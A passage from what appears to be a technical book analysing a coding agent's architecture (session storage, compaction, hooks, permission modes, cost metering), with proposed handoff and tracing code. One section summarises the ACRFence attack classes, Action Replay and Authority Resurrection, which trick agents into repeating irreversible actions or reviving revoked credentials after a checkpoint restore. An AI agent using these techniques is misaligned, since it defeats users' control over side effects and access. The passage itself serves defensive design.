**cc's defense**: Session persistence in `src/utils/sessionStorage.ts` stores the full conversation as JSONL entries with tombstones, preserving the exact sequence of tool calls and results. The `restoreCostStateForSession` function in `src/cost-tracker.ts:L130-L137` restores accumulated cost state, preventing cost counters from resetting. The `setCostStateForRestore` function ensures that cost counters continue correctly after restore.

The `reAppendSessionMetadata` function in `src/utils/sessionStorage.ts` ensures that session metadata is correctly restored, preventing the model from re-synthesizing session-creation messages.

The checkpoint-restore problem is compounded by cc's session resume architecture. The `sessionStorage.ts` module stores the full conversation as a JSONL log, and the resume flow replays this log to reconstruct the conversation state. However, the replay reconstructs the *conversation context*, not the *external world state*. If the model executed a `git push` before the session crashed, the conversation log records that the push happened, but there is no mechanism to prevent the model from issuing another push after restore — the model may not even realize the first push succeeded, depending on how the tool result was compacted.

The ACRFence paper's "Action Replay" attack class exploits exactly this gap: an attacker who can manipulate the conversation log (or the model's perception of it) can cause the agent to re-execute irreversible operations. The "Authority Resurrection" attack class is even more subtle: after restore, the agent may re-establish authorization contexts (OAuth tokens, SSH keys) that were explicitly revoked before the crash, gaining access the user intended to deny.

A structural fix would require an "effect ledger" — a separate append-only log of irreversible side effects (git pushes, API calls, email sends, payment submissions) that is checked before any tool call that could produce such effects. The `PostToolUse` hook mechanism in `src/services/tools/toolHooks.ts` could be extended to maintain this ledger, and the `PreToolUse` hook could consult it before allowing potentially duplicative operations. The `FileEditTool`'s pre-read-verify pattern provides a model: just as edits require verifying the file's current state before mutating it, irreversible tool calls should require verifying that the effect has not already been applied.

**Gap**: This is the most critical gap for multi-hour tasks. cc does NOT record irreversible tool effects, does NOT enforce replay-or-fork semantics, and does NOT implement idempotency keys for external tool calls. If a session is restored after a `git push` or an API call, those side effects are not tracked, and the model may re-execute them. The ACRFence paper (arXiv:2603.20625) identifies two attack classes — Action Replay and Authority Resurrection — specific to agent checkpoint-restore. HER notes: "Critical for multi-hour tasks with external side effects (API calls, payments, email sends)."

### 6.17 Goal Misinterpretation / Specification Gaming

**Symptom**: Agent optimizes for proxy metrics rather than actual intent (HER §6.17). Distinct from 6.2 (premature completion) — the agent may do significant *wrong* work rather than stopping early.

**cc's defense**: The `AskUserQuestionTool` in `src/tools/AskUserQuestionTool/AskUserQuestionTool.tsx` provides a human-in-the-loop checkpoint. The `plan mode` system in `src/tools/EnterPlanModeTool/EnterPlanModeTool.ts` forces the agent to present its understanding before acting. The `ExitPlanModeV2Tool` in `src/tools/ExitPlanModeTool/ExitPlanModeV2Tool.ts` requires the agent to present a plan and get user approval.

The system prompt includes guardrails against specification gaming: "Do not add features, refactor code, or make 'improvements' beyond what was asked." The `TodoWriteTool` helps decompose goals into explicit sub-tasks.

**Gap**: There is no structural "human checkpoint at 25% completion" as HER recommends. The model can misinterpret goals and execute significant wrong work before the user notices. Decomposing ambiguous goals into unambiguous sub-tasks before starting is a prompt-level recommendation, not a structural enforcement. HER's fix — "explicit acceptance criteria with concrete examples; human checkpoint at 25% completion for intent verification" — would require a new structural mechanism that cc does not implement.

## Where cc diverges from the published pattern

cc diverges from HER's recommended fixes in several notable ways:

1. **Observation masking vs. full compaction**: HER recommends observation masking (redacting prior tool outputs while preserving decision-relevant information) as a cost-reduction technique. cc's implementation goes further — the microcompact path in `src/services/compact/microCompact.ts` replaces old tool results with `[Old tool result content cleared]` markers, which is a lossier form of masking. The cached microcompact feature (gated by `feature('CACHED_MICROCOMPACT')`) adds cache-editing to avoid rewriting the entire prefix, approaching true observation masking more closely. The time-based microcompact trigger in `src/services/compact/microCompact.ts:L267-L270` fires when the server cache has expired, clearing old tool results before the request to shrink what gets rewritten.

2. **Circuit breakers over retry limits**: Where HER recommends "maximum retry counts, exponential backoff, loop detection" for infinite loops (6.7), cc implements circuit breakers that progressively escalate: `DENIAL_LIMITS.maxConsecutive = 3` in `src/utils/permissions/denialTracking.ts:L12`, `MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES = 3` in `src/services/compact/autoCompact.ts:L70`, and the `autoModeCircuitBroken` flag in `src/utils/permissions/autoModeState.ts:L9`. These are more aggressive than simple retry counts — they permanently change system behavior rather than just pausing.

3. **Prompt-level vs. structural enforcement**: For failure modes 6.2 (premature completion), 6.4 (placeholder implementations), and 6.10 (yak shaving), cc relies on system prompt instructions rather than structural mechanisms. This is a deliberate tradeoff: structural enforcement adds complexity and reduces model flexibility, while prompt-level guidance is cheaper to implement and easier to iterate on. The tradeoff is that prompt-level defenses are less reliable under adversarial conditions or model regressions.

4. **Cost metering vs. cost caps**: HER recommends "per-session and per-task cost caps" for 6.11 (cost explosion). cc implements comprehensive cost metering (`src/cost-tracker.ts`) but no hard cost caps. The token budget in `src/query/tokenBudget.ts` acts as a de facto cost cap (since tokens correlate with cost), but it can be overridden, and there is no anomaly detection on spend rate.

5. **No defense for 6.16**: The checkpoint-restore side-effect failure mode has no structural defense in cc. This is the most significant gap, as the ACRFence paper demonstrates concrete attack vectors (Action Replay, Authority Resurrection) that are exploitable in any agent with persistent state and external side effects.

## Developer takeaways for building a long-running agent

1. **Circuit breakers beat retry limits**: cc's approach of permanently degrading functionality after repeated failures (denial tracking, autocompact circuit breaker, auto-mode kick-out) is more robust than simple retry counts. When building a long-running agent, implement circuit breakers at every layer that can loop.

2. **Proactive compaction prevents anxiety**: The autocompact threshold fires well before the hard limit (13K tokens of headroom), giving the model room to work. This is more effective than reactive compaction alone. Build your context management to be proactive, not just reactive.

3. **Observation masking is a spectrum**: cc's microcompact is a lossy form of observation masking. The cached microcompact feature approaches true masking. When building your own agent, consider where on the lossy-to-lossless spectrum your observation masking should sit — lossy is cheaper but discards potentially useful context.

4. **Track failures, not just successes**: The `DenialTrackingState` and `AutoCompactTrackingState` explicitly track failures. This data enables circuit breakers and provides observability into system health. Build failure tracking into your agent from day one.

5. **Gap analysis is an engineering artifact**: cc has no structural defense for 6.2, 6.4, 6.9, 6.14, 6.16, or 6.17. These gaps represent deliberate tradeoffs between complexity and coverage. When building your own agent, make the gap analysis explicit and track it as an engineering artifact.

6. **Cost caps are missing but necessary**: Per-session cost caps are absent despite the real operational risk. Multi-agent chains compound costs non-linearly. Implement hard cost caps early, before you discover them the expensive way.

7. **Checkpoint-restore requires idempotency**: The 6.16 gap is the most critical missing defense. If your agent makes external API calls, sends emails, or pushes code, you need idempotency keys and effect recording before safely restoring sessions.
# Reference Architecture: Building a Trustworthy Long-Running Agent

## Overview

The preceding fifty-four chapters dissected cc's implementation layer by layer. This chapter inverts the lens: instead of reading code top-down, we start from HER's 8-layer reference architecture (§21) and ask, *what would a production-grade, long-running coding agent look like if we built it from scratch, using cc's proven patterns and avoiding its gaps?*

The answer is not a single codebase — no public implementation covers all eight layers (§21). The celesteanders/harness repo implements only Layers 1–2 and part of Layer 4. What follows is therefore a synthesis: each layer is described as (a) the HER specification, (b) cc's concrete implementation where one exists, (c) the gap, and (d) the architectural decision a builder must make. The decision framework from §19 provides the routing logic.

The core tension is this: **trustworthiness is the product of back-pressure and observability, but both cost tokens and latency.** Every layer adds safety but also adds overhead. A reference architecture must make that trade-off explicit and configurable, not implicit and fixed.

The 12 core principles from §20 provide the value system that governs every architectural decision in this chapter. The most important three for the reference architecture are: (1) context windows are the constraint and structured artifacts are the solution, (2) separate generation from evaluation, and (3) control costs actively. Every layer in the reference architecture exists because violating one of these principles caused a documented failure.

```mermaid
classDiagram
    class Layer1_TaskInfra {
      +taskList: JSON
      +decompose(sessionSize)
      +priorityOrder()
      +immutableDescriptions()
    }
    class Layer2_SessionMgmt {
      +startupProtocol()
      +exitProtocol()
      +handoff()
      +maxDuration()
    }
    class Layer3_ContextEng {
      +compaction()
      +observationMasking()
      +tieredMemory()
      +subagentIsolation()
    }
    class Layer4_QualityGates {
      +preCommit()
      +postCommit()
      +perFeature()
      +perSession()
    }
    class Layer5_Safety {
      +permissionTiers()
      +destructiveConfirm()
      +loopDetection()
      +idempotencyKeys()
    }
    class Layer6_CostObserv {
      +costCaps()
      +tokenMetering()
      +distributedTracing()
      +alerting()
    }
    class Layer7_MultiAgent {
      +generatorEvaluator()
      +modelRouting()
      +fileBasedComm()
      +worktreeIsolation()
    }
    class Layer8_Learning {
      +progressNotes()
      +patternDiscovery()
      +evaluatorFeedback()
      +harnessVersioning()
    }
    Layer1_TaskInfra --> Layer2_SessionMgmt : feeds
    Layer2_SessionMgmt --> Layer3_ContextEng : triggers
    Layer3_ContextEng --> Layer4_QualityGates : surfaces
    Layer4_QualityGates --> Layer5_Safety : enforces
    Layer5_Safety --> Layer6_CostObserv : instruments
    Layer6_CostObserv --> Layer7_MultiAgent : coordinates
    Layer7_MultiAgent --> Layer8_Learning : adapts
```

## Data structures and contracts

### Layer 1: Task Infrastructure — the immutable task record

The foundational contract is the task record. cc's implementation uses a Zod-validated schema with three status states, dependency edges, and an owner field:

```typescript
// src/utils/tasks.ts:L76-L89 — Task schema definition
export const TaskSchema = lazySchema(() =>
  z.object({
    id: z.string(),
    subject: z.string(),
    description: z.string(),
    activeForm: z.string().optional(),
    owner: z.string().optional(),
    status: TaskStatusSchema(),
    blocks: z.array(z.string()),
    blockedBy: z.array(z.string()),
    metadata: z.record(z.string(), z.unknown()).optional(),
  }),
)
export type Task = z.infer<ReturnType<typeof TaskSchema>>
```

This satisfies HER Layer 1's requirements: immutable descriptions (the `subject` and `description` never change after creation), mutable status only (transitions via `pending → in_progress → completed`), and dependency tracking (`blocks`/`blockedBy` edges). The `owner` field maps to HER's requirement for task assignment in multi-agent settings — when a coordinator swarm operates, each task can be claimed by a specific agent ID.

What's missing from the HER specification is **priority ordering** — cc tasks are currently FIFO within a status bucket, not explicitly prioritized. For the reference architecture, the `metadata` field provides the extension point: a `priority` key could be added without schema changes, and the task selector could sort by priority before FIFO within each priority band.

The high-water mark file (`.highwatermark`) ensures monotonic ID assignment across concurrent swarm agents, addressing the "unique ID in a distributed setting" requirement implicitly through filesystem locking `src/utils/tasks.ts:L91-L98`. The three canonical task statuses — `pending`, `in_progress`, `completed` — are defined as a const tuple at `src/utils/tasks.ts:L69`:

```typescript
// src/utils/tasks.ts:L69-L74 — Task statuses as a const tuple
export const TASK_STATUSES = ['pending', 'in_progress', 'completed'] as const

export const TaskStatusSchema = lazySchema(() =>
  z.enum(['pending', 'in_progress', 'completed']),
)
export type TaskStatus = z.infer<ReturnType<typeof TaskStatusSchema>>
```

The reference architecture should add a `blocked` status (distinct from `blockedBy` which is a relation, not a state) and a `failed` status to capture tasks that cannot complete due to environmental errors. cc's current three-state model cannot distinguish between "not started" and "tried and failed" — both remain `pending`.

### Layer 2: Session Management — the protocol contract

HER specifies a session startup protocol: ORIENT → SETUP → VERIFY → SELECT. cc's bootstrap sequence in `src/entrypoints/cli.tsx` through `src/entrypoints/init.ts` to `src/main.tsx` implements a subset — it orients (loads settings, checks MDM), sets up (TLS, keychain, OAuth), and verifies (version check, policy limits), but the SELECT phase is left to the user's initial prompt rather than automated task selection.

The clean exit protocol is partially implemented through session persistence in `src/utils/sessionStorage.ts`, which writes JSONL entries with tombstones for resumability. What's missing is **explicit session-to-session handoff** — cc can resume a session but cannot automatically decompose remaining work and write a structured handoff file for the next session.

For the reference architecture, the session contract should be formalized as a state machine with explicit transitions. The ORIENT phase must include drift detection — comparing the current repo state against the last known good state from the previous session. The VERIFY phase must include a baseline check: run the test suite, confirm it passes, and abort if it doesn't. HER Principle 4 ("verify before building") exists because compounding bugs across sessions is one of the most common failure modes.

The maximum session duration limit with graceful wind-down (HER Layer 2) is not implemented in cc. A long-running agent should enforce a wall-clock limit (e.g., 4 hours) and, as it approaches the limit, stop selecting new tasks, complete the current task, write a handoff file, and exit cleanly. This prevents the degenerate case where an agent runs indefinitely, accumulating context rot and cost without making progress.

The structured handoff file deserves a concrete schema. cc can resume sessions via JSONL but cannot automatically decompose remaining work. A reference architecture handoff file should follow this contract:

```typescript
// Proposed: handoff.json — written at session exit, read at next session start
type HandoffFile = {
  sessionId: string
  exitReason: 'duration_limit' | 'compaction_failure' | 'cost_cap' | 'all_tasks_done'
  completedTaskIds: string[]
  remainingTaskIds: string[]
  blockers: Array<{ taskId: string; reason: string }>
  lastCommitSha: string
  testStatus: 'passing' | 'failing' | 'unknown'
  contextHints: Array<{ topic: string; summary: string }>
}
```

The `contextHints` field is the critical innovation: it provides the next session with compressed semantic context about *why* work was abandoned, not just *what* was left. Without it, the next session must re-discover the same context from scratch, wasting tokens and repeating exploration.

### Session handoff: from schema to working implementation

The `HandoffFile` schema above is necessary but not sufficient. A working handoff requires three concrete operations: writing the file at session exit, consuming it at session start, and resuming work from its contents. The following implementation extends the schema with the fields needed for practical session-to-session continuity, then wires the file into cc's existing session lifecycle hooks.

The extended schema adds two fields the minimal version lacks: `contextHints.lastTool` and `contextHints.lastFile` (so the next session knows *where* work stopped, not just *what* was left), and a `stateSnapshot` block that records paths to the manifest and convergence log (so the next session can reload structured state without re-parsing the entire conversation history):

```typescript
// Proposed implementation — not in cc source, recommended addition
import { z } from 'zod'
import { writeFile, readFile } from 'fs/promises'
import { join } from 'path'

const HandoffFileSchema = z.object({
  version: z.literal(1),
  sessionId: z.string(),
  exitReason: z.enum([
    'context_limit',
    'cost_limit',
    'time_limit',
    'user_request',
    'error',
  ]),
  timestamp: z.string().datetime(),
  remainingTaskIds: z.array(z.string()),
  completedTaskIds: z.array(z.string()),
  blockers: z.array(
    z.object({ taskId: z.string(), reason: z.string() }),
  ),
  contextHints: z.object({
    lastTool: z.string(),
    lastFile: z.string(),
    keyDecisions: z.array(z.string()),
    openQuestions: z.array(z.string()),
  }),
  stateSnapshot: z.object({
    manifestPath: z.string(),
    convergenceLogPath: z.string(),
    totalTokensConsumed: z.number(),
    totalCostUSD: z.number(),
  }),
})

type HandoffFile = z.infer<typeof HandoffFileSchema>
```

**Writing the handoff file at session exit.** cc fires `SessionEnd` hooks via `executeSessionEndHooks` in `src/utils/hooks.ts:L4097-L4131`. The `SessionEndHookInput` type carries the `exit_reason` field, which maps directly to `HandoffFile.exitReason`. The handoff writer hooks into this lifecycle event. It reads the current task list (via the same filesystem access that `TodoReadTool` uses), partitions tasks into completed and remaining, captures the last tool name and last file path from the conversation's final `AssistantMessage`, and writes the handoff JSON to a well-known location alongside the session JSONL:

```typescript
// Proposed implementation — not in cc source, recommended addition
async function writeHandoffFile(
  projectRoot: string,
  sessionId: string,
  exitReason: HandoffFile['exitReason'],
  tasks: Array<{ id: string; status: string }>,
  lastTool: string,
  lastFile: string,
  keyDecisions: string[],
  openQuestions: string[],
  manifestPath: string,
  convergenceLogPath: string,
  totalTokens: number,
  totalCostUSD: number,
): Promise<string> {
  const handoff: HandoffFile = {
    version: 1,
    sessionId,
    exitReason,
    timestamp: new Date().toISOString(),
    remainingTaskIds: tasks
      .filter(t => t.status === 'pending' || t.status === 'in_progress')
      .map(t => t.id),
    completedTaskIds: tasks
      .filter(t => t.status === 'completed')
      .map(t => t.id),
    blockers: tasks
      .filter(t => t.status === 'in_progress')
      .map(t => ({ taskId: t.id, reason: `Interrupted by ${exitReason}` })),
    contextHints: { lastTool, lastFile, keyDecisions, openQuestions },
    stateSnapshot: {
      manifestPath,
      convergenceLogPath,
      totalTokensConsumed: totalTokens,
      totalCostUSD,
    },
  }

  const handoffPath = join(projectRoot, '.handoff.json')
  await writeFile(handoffPath, JSON.stringify(handoff, null, 2), 'utf-8')
  return handoffPath
}
```

The `writeHandoffFile` function is called from a `SessionEnd` hook registered in the settings cascade. The hook's configuration follows the same JSON schema that cc uses for all hooks in `src/utils/hooks.ts:L76-L109`:

```jsonc
// Proposed hook configuration — settings.json
{
  "hooks": {
    "SessionEnd": [{
      "type": "command",
      "command": "node ./harness/write-handoff.mjs"
    }]
  }
}
```

**Consuming the handoff file at session start.** The next session reads the handoff file during its `SessionStart` hook phase, which fires via `processSessionStartHooks` in `src/utils/sessionStart.ts`. The consumer validates the file with Zod (catching schema drift across harness versions), extracts remaining tasks, and injects the `contextHints` into the system prompt so the model has immediate access to the previous session's final state:

```typescript
// Proposed implementation — not in cc source, recommended addition
async function readHandoffFile(
  projectRoot: string,
): Promise<HandoffFile | null> {
  const handoffPath = join(projectRoot, '.handoff.json')
  try {
    const raw = await readFile(handoffPath, 'utf-8')
    const parsed = JSON.parse(raw)
    const validated = HandoffFileSchema.parse(parsed)
    return validated
  } catch {
    // No handoff file or invalid schema — cold start
    return null
  }
}

function buildHandoffSystemPrompt(handoff: HandoffFile): string {
  const lines: string[] = [
    '## Session Continuity — Handoff from Previous Session',
    '',
    `Previous session ${handoff.sessionId} exited: ${handoff.exitReason}`,
    `at ${handoff.timestamp}.`,
    '',
    `Remaining tasks: ${handoff.remainingTaskIds.join(', ') || 'none'}`,
    `Completed tasks: ${handoff.completedTaskIds.join(', ') || 'none'}`,
    '',
  ]

  if (handoff.blockers.length > 0) {
    lines.push('### Blockers')
    for (const b of handoff.blockers) {
      lines.push(`- Task ${b.taskId}: ${b.reason}`)
    }
    lines.push('')
  }

  lines.push('### Context from Previous Session')
  lines.push(`Last tool used: ${handoff.contextHints.lastTool}`)
  lines.push(`Last file touched: ${handoff.contextHints.lastFile}`)
  if (handoff.contextHints.keyDecisions.length > 0) {
    lines.push('Key decisions made:')
    for (const d of handoff.contextHints.keyDecisions) {
      lines.push(`- ${d}`)
    }
  }
  if (handoff.contextHints.openQuestions.length > 0) {
    lines.push('Open questions:')
    for (const q of handoff.contextHints.openQuestions) {
      lines.push(`- ${q}`)
    }
  }

  lines.push('')
  lines.push(
    `Previous session consumed ${handoff.stateSnapshot.totalTokensConsumed} tokens ` +
    `($${handoff.stateSnapshot.totalCostUSD.toFixed(4)}).`,
  )

  return lines.join('\n')
}
```

**Resuming work from the handoff.** The resume flow loads remaining task IDs from the handoff file, re-reads the task manifest from `stateSnapshot.manifestPath`, and selects the first unblocked pending task. If blockers exist, the resume flow logs them to the convergence log and skips blocked tasks. The `contextHints` system prompt is prepended to the model's first turn, giving it the previous session's final state without requiring it to re-read the full conversation history (which no longer exists — the previous session's context was either compacted or lost to a hard reset).

The integration with cc's existing session persistence is deliberate. The JSONL session log (`src/utils/sessionStorage.ts`) records the *conversation history* — messages, tool calls, tool results. The handoff file records the *task-level state* — what was done, what remains, and why the session ended. These are complementary: the JSONL log is the audit trail; the handoff file is the resumption contract. When a session resumes via `--resume` (which calls `restoreCostStateForSession` in `src/cost-tracker.ts:L130-L137` to restore cost counters), the handoff file adds task-level context that the JSONL log cannot provide — specifically the `keyDecisions` and `openQuestions` fields that capture the model's reasoning state at the point of exit.

The handoff file is deleted after successful consumption to prevent stale handoffs from confusing future sessions. If the next session fails to start (e.g., due to a baseline check failure), the handoff file remains on disk for the subsequent attempt.

### Layer 3: Context Engineering — the compaction contract

The most complex layer. cc implements a five-stage compaction hierarchy (Chapter 28) with explicit thresholds:

```typescript
// src/services/compact/autoCompact.ts:L51-L70 — Autocompact tracking and thresholds
export type AutoCompactTrackingState = {
  compacted: boolean
  turnCounter: number
  turnId: string
  consecutiveFailures?: number
}

export const AUTOCOMPACT_BUFFER_TOKENS = 13_000
export const WARNING_THRESHOLD_BUFFER_TOKENS = 20_000
export const ERROR_THRESHOLD_BUFFER_TOKENS = 20_000
export const MANUAL_COMPACT_BUFFER_TOKENS = 3_000

const MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES = 3
```

The `consecutiveFailures` circuit breaker is critical: without it, a context that's irrecoverably over the limit (e.g., `prompt_too_long`) would cause infinite retry loops. The comment in the source — "1,279 sessions had 50+ consecutive failures (up to 3,272) in a single session, wasting ~250K API calls/day globally" — is empirical evidence that the circuit breaker is load-bearing.

The reference architecture must extend this with two mechanisms cc lacks: **observation masking** and **context reset with structured handoff**. Observation masking (HER §8.1) trims successful tool outputs to summaries, preserving only failures and decision-relevant information. cc's microcompact does partial trimming but not the full "success is silent" pattern. The structured handoff is the escape hatch when compaction fails three times: instead of retrying, the agent should write its current task state to disk, clear the context window entirely, and resume from the handoff file.

The tiered memory system in cc's memdir (`src/memdir/memdir.ts`) — with its `MEMORY.md` index (capped at 200 lines and 25KB) and per-memory topic files — implements HER Layer 3's "always-loaded index + on-demand topic files" pattern. The `truncateEntrypointContent` function at `src/memdir/memdir.ts:L57-L80` enforces the cap:

```typescript
// src/memdir/memdir.ts:L57-L80 — Entrypoint truncation with dual caps
export function truncateEntrypointContent(raw: string): EntrypointTruncation {
  const trimmed = raw.trim()
  const contentLines = trimmed.split('\n')
  const lineCount = contentLines.length
  const byteCount = trimmed.length

  const wasLineTruncated = lineCount > MAX_ENTRYPOINT_LINES
  const wasByteTruncated = byteCount > MAX_ENTRYPOINT_BYTES

  if (!wasLineTruncated && !wasByteTruncated) {
    return { content: trimmed, lineCount, byteCount, wasLineTruncated, wasByteTruncated }
  }

  let truncated = wasLineTruncated
    ? contentLines.slice(0, MAX_ENTRYPOINT_LINES).join('\n')
    : trimmed
```

This dual-cap (lines and bytes) is a production-hardened detail: long individual lines — not just many lines — can bloat the index beyond usability. The reference architecture should adopt the same dual-cap approach for any always-loaded context artifact.

### Layer 4: Quality Gates — the back-pressure contract

HER Layer 4 defines a four-tier quality stack: pre-commit (type-check, lint, format), post-commit (unit tests, integration tests), per-feature (E2E browser automation), and per-session (evaluator agent in fresh context). The critical design principle is that **success is silent; only failures produce verbose output** — passing tests should not consume context window tokens.

cc implements pre-commit gates through `PostToolUse` hooks that can run type-checkers and linters after file modifications. The hook infrastructure in `src/utils/hooks.ts:L76-L109` provides the extension points through its imported type catalog:

```typescript
// src/utils/hooks.ts:L76-L109 — Hook event type imports from agentSdkTypes
import type {
  HookEvent,
  HookInput,
  HookJSONOutput,
  NotificationHookInput,
  PostToolUseHookInput,
  PostToolUseFailureHookInput,
  PermissionDeniedHookInput,
  PreCompactHookInput,
  PostCompactHookInput,
  PreToolUseHookInput,
  SessionStartHookInput,
  SessionEndHookInput,
  SetupHookInput,
  StopHookInput,
  StopFailureHookInput,
  SubagentStartHookInput,
  SubagentStopHookInput,
  TeammateIdleHookInput,
  TaskCreatedHookInput,
  TaskCompletedHookInput,
  ConfigChangeHookInput,
  CwdChangedHookInput,
  FileChangedHookInput,
  InstructionsLoadedHookInput,
  UserPromptSubmitHookInput,
  PermissionRequestHookInput,
  ElicitationHookInput,
  ElicitationResultHookInput,
  PermissionUpdate,
  ExitReason,
  SyncHookJSONOutput,
  AsyncHookJSONOutput,
} from 'src/entrypoints/agentSdkTypes.js'
```

These are type imports, not definitions — the actual type shapes live in `src/entrypoints/agentSdkTypes.js` and `src/types/hooks.js`. The breadth of the import list (30+ hook-specific types) is what makes Layer 4 viable: each event type corresponds to a lifecycle hook that can be wired to a quality gate.

The breadth of hook events is what makes Layer 4 viable. A `PostToolUse` hook running `tsc --noEmit` after every file edit is a type-checking quality gate. A `PreCompact` hook that verifies all tests pass before allowing context compaction prevents losing failure information. A `SessionEnd` hook that runs the full test suite provides the per-session evaluation.

The `runPostToolUseHooks` function in `src/services/tools/toolHooks.ts:L39-L60` shows how post-tool hooks iterate and can modify tool output:

```typescript
// src/services/tools/toolHooks.ts:L39-L55 — Post-tool-use hook iteration
export async function* runPostToolUseHooks<Input extends AnyObject, Output>(
  toolUseContext: ToolUseContext,
  tool: Tool<Input, Output>,
  toolUseID: string,
  messageId: string,
  toolInput: Record<string, unknown>,
  toolResponse: Output,
  requestId: string | undefined,
  mcpServerType: McpServerType,
  mcpServerBaseUrl: string | undefined,
): AsyncGenerator<PostToolUseHooksResult<Output>> {
  const postToolStartTime = Date.now()
  try {
    const appState = toolUseContext.getAppState()
    const permissionMode = appState.toolPermissionContext.mode

    let toolOutput = toolResponse
    for await (const result of executePostToolHooks(
      tool.name,
      toolUseID,
      toolInput,
      toolOutput,
```

The reference architecture should formalize this into a quality gate pipeline: each gate is a hook with a defined severity (warning, error, blocker), and the pipeline's output is either "all gates pass" (silent, no context consumed) or "specific gates failed" (verbose, with fix suggestions injected into the context).

### Layer 5: Safety — the permission mode contract

cc's permission system defines six modes with explicit escalation paths:

```typescript
// src/utils/permissions/PermissionMode.ts:L34-L41 — Mode configuration shape
type PermissionModeConfig = {
  title: string
  shortTitle: string
  symbol: string
  color: ModeColorKey
  external: ExternalPermissionMode
}
```

The modes — `default`, `plan`, `acceptEdits`, `bypassPermissions`, `dontAsk`, `auto` — map roughly to HER's permission tiers (read-only → discuss → full access), but cc lacks **formal idempotency keys for external operations** and **rate limiting on tool usage** — both specified in Layer 5.

The `plan` mode is cc's implementation of the "read-only tier" from HER — it restricts the agent to exploration and planning before committing to file modifications. The `auto` mode, feature-gated behind `TRANSCRIPT_CLASSIFIER` `src/utils/permissions/PermissionMode.ts:L80-L90`, uses a yoloClassifier to make automated permission decisions based on command risk classification.

For the reference architecture, the permission contract must be strengthened in three ways: (1) **idempotency keys** — every external operation (API call, message send, deployment) must carry a unique key that prevents duplicate execution after checkpoint-restore cycles; (2) **rate limiting** — per-tool and per-category rate limits that throttle tool usage when the agent enters repetitive loops; (3) **loop detection** — a mechanism that detects when the agent is repeating the same tool call pattern without progress and escalates to a human.

### Layer 6: Cost and Observability — the metering contract

HER Layer 6 is where production reality intrudes on architectural elegance. A long-running agent that cannot be observed cannot be trusted, and a long-running agent whose costs are not bounded cannot be operated. The three pillars of observability — traces, metrics, and structured logs — must all be present, and they must feed back into the control flow, not just into a dashboard.

cc implements two of the three pillars. Metrics are covered by the OpenTelemetry `Meter`, `AttributedCounter`, and state-level counters shown above. Structured logging is covered by the analytics event system in `src/services/analytics/index.ts`, which emits `tengu_*` events with typed metadata. What's missing is **distributed tracing** — OpenTelemetry spans that correlate work across the parent agent, forked subagents, and remote agents. Without spans, a multi-hour session's trace is a flat list of events with no causal structure.

Cost tracking in cc feeds back into the state system in `src/bootstrap/state.ts`. The cost and duration fields occupy lines L51-L67:

```typescript
// src/bootstrap/state.ts:L45-L67 — State shape includes cost and duration counters
type State = {
  originalCwd: string
  projectRoot: string
  totalCostUSD: number
  totalAPIDuration: number
  totalAPIDurationWithoutRetries: number
  totalToolDuration: number
  turnHookDurationMs: number
  turnToolDurationMs: number
  turnClassifierDurationMs: number
  turnToolCount: number
  turnHookCount: number
  turnClassifierCount: number
  startTime: number
  lastInteractionTime: number
  totalLinesAdded: number
  totalLinesRemoved: number
  hasUnknownModelCost: boolean
  cwd: string
  modelUsage: { [modelName: string]: ModelUsage }
```

The OpenTelemetry telemetry instruments live further down, at L89-L98:

```typescript
// src/bootstrap/state.ts:L89-L98 — OTel meter and attributed counters
  meter: Meter | null
  sessionCounter: AttributedCounter | null
  locCounter: AttributedCounter | null
  prCounter: AttributedCounter | null
  commitCounter: AttributedCounter | null
  costCounter: AttributedCounter | null
  tokenCounter: AttributedCounter | null
  codeEditToolDecisionCounter: AttributedCounter | null
  activeTimeCounter: AttributedCounter | null
  statsStore: { observe(name: string, value: number): void } | null
```

The `costCounter` and `tokenCounter` are OpenTelemetry instruments, making cc's cost tracking compatible with distributed tracing infrastructure. The `addToTotalSessionCost` function in `src/cost-tracker.ts:L278-L323` accumulates cost per model, per token type, and emits analytics events:

```typescript
// src/cost-tracker.ts:L278-L301 — Per-session cost accumulation with OTel counters
export function addToTotalSessionCost(
  cost: number,
  usage: Usage,
  model: string,
): number {
  const modelUsage = addToTotalModelUsage(cost, usage, model)
  addToTotalCostState(cost, modelUsage, model)

  const attrs =
    isFastModeEnabled() && usage.speed === 'fast'
      ? { model, speed: 'fast' }
      : { model }

  getCostCounter()?.add(cost, attrs)
  getTokenCounter()?.add(usage.input_tokens, { ...attrs, type: 'input' })
  getTokenCounter()?.add(usage.output_tokens, { ...attrs, type: 'output' })
  getTokenCounter()?.add(usage.cache_read_input_tokens ?? 0, {
    ...attrs,
    type: 'cacheRead',
  })
  getTokenCounter()?.add(usage.cache_creation_input_tokens ?? 0, {
    ...attrs,
    type: 'cacheCreation',
  })
```

This is the Layer 6 metering requirement implemented correctly: per-model, per-token-type, with cache distinction. However, cc currently lacks **per-session cost caps** and **anomaly detection**. The cost counter records but does not throttle. A reference architecture must add a cost gate that aborts or degrades the session when spend exceeds a configured threshold.

The reference architecture should define three cost tiers: (1) a **soft cap** that triggers a warning and model downgrade (Opus → Sonnet → Haiku), (2) a **hard cap** that stops selecting new tasks and initiates graceful shutdown, and (3) a **kill switch** that aborts the session immediately, writing whatever state exists to the handoff file. HER Principle 10 ("budget for 3-10x the happy-path cost") is the operational guideline — cost caps should be set at 3x the expected cost, not at 1x.

### Distributed tracing: from flat events to causal spans

cc's analytics system logs events through the `AnalyticsSink` interface in `src/services/analytics/index.ts:L72-L78`, which accepts event names and flat metadata records. The `logEvent` function at `src/services/analytics/index.ts:L133-L144` carries no trace context — no trace ID, no parent span, no causal ordering. When a multi-agent workflow fails, the operator sees a chronological list of events but cannot reconstruct which subagent's action caused the failure or how long each phase of the dispatch chain took.

The following walkthrough shows how trace context would propagate through cc's multi-agent dispatch chain, from the parent session's root span down to individual tool calls in worker subagents. The design uses OpenTelemetry-compatible span IDs and follows the W3C Trace Context specification for propagation.

The `TraceSpan` type captures the essential data for each unit of work:

```typescript
// Proposed implementation — not in cc source, recommended addition
interface TraceSpan {
  traceId: string            // 32-char hex, shared across all spans in a trace
  spanId: string             // 16-char hex, unique to this span
  parentSpanId: string | null // null for root span
  operation: string           // e.g., 'session.query', 'tool.BashTool', 'agent.fork'
  startTime: number           // Date.now() at span creation
  endTime?: number            // Date.now() at span completion
  status: 'running' | 'completed' | 'failed'
  attributes: Record<string, string | number | boolean>
  children: TraceSpan[]       // in-memory tree for dashboard rendering
}

function createSpan(
  traceId: string,
  parentSpanId: string | null,
  operation: string,
  attributes: Record<string, string | number | boolean> = {},
): TraceSpan {
  return {
    traceId,
    spanId: randomBytes(8).toString('hex'),
    parentSpanId,
    operation,
    startTime: Date.now(),
